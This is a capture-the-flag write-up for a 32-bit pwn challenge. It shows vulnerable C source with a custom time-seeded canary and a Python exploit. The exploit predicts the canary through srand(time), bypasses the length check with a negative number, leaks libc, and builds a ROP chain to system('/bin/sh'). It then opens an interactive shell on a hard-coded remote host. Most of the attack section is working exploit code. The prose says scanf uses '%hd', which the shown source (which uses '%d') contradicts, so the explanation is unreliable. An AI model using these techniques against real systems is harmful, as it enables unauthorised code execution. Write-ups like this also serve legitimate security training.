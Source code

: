 ## [Pwn] Kanai's Cube (250)

**kanais_cube.cpp**
```c
// Mitigation : ASLR, NX
// compile : gcc -fno-stack-protector -mpreferred-stack-boundary=2 -o Kanais_Cube Kanais_Cube.c -m32

#include <stdio.h>
#include <string.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>

int gl_canary = 0;

int main(int argc, char *argv[])
{
	setvbuf(stdout, 0, 2, 0);
	srand(time(NULL));
	int canary;
	canary = rand();
	gl_canary = canary;
	int num = 0;
	char vuln[120];
	puts("Input the number of string you want to write!");
	scanf("%d", &num);
	if(num > 120) {
		puts("Toooooooo Long!");
		exit(0);
	}
	printf("Input your string! max length : %d\n", num);
	fflush(NULL);
	read(0, vuln, (unsigned)num);
	if(canary != gl_canary) {
		puts("[*] Do not Hack me :(");
		exit(0);
	}
	puts(vuln);
	return 0;
}
```

Simple ROP Challenge.  
It use Custom Canary made up of random integer using **time(NULL)** to protect BOF.  
It also check the length if the **length** excessed 120 before input.  

We can bypass the custom canary by setting arguments of **srand** same as challenge's.  
Next, we can also bypass the length check because **scanf** is using "%hd".  
"%hd" is a 2-byte **signed** integer type formatstring.  
So we can simply bypass it by inputting **"-1"**.  

After then, it's just simple ROP Challenge.  
But you can only leak the library in the first attempt, so you should call the **main** function again, and then exploit.

Exploit code is as follows.
```python
from hackutil import *
import ctypes
import struct
from time import *
from socket import *
from telnetlib import *

printf_plt = 0x08048440
read_got = 0x0804A00C
offset_read_system = 0x9e8b0
offset_read_binsh = 0xf7ee9bf0 - 0xf7f6f803
main = 0x080485DD

#============================

HOST = '45.32.38.83'
PORT = 25552

#============================

libc = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # Linux env
libc.srand(libc.time(0))

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((HOST, PORT))

print sock.recv(1024)
sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*124+p32(canary)+"BBBB"+p32(printf_plt)+p32(main)+p32(read_got))

sock.recv(1024)
data = sock.recv(1024)
print hexdump(data)

read_lib = up32(data[:4])[0]
system_lib = read_lib - offset_read_system
binsh_lib = read_lib - offset_read_binsh

print "[*] Find read_lib : " + str(hex(read_lib))
print "[*] Find system_lib : " + str(hex(system_lib))
print "[*] Find /bin/sh : " + str(hex(binsh_lib))

####################[ STEP 2 ]###################

libc.srand(libc.time(0))

sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*122+p32(canary)+"B"*12+p32(system_lib)+"AAAA"+p32(binsh_lib))

t = Telnet()
t.sock = sock
t.interact()
```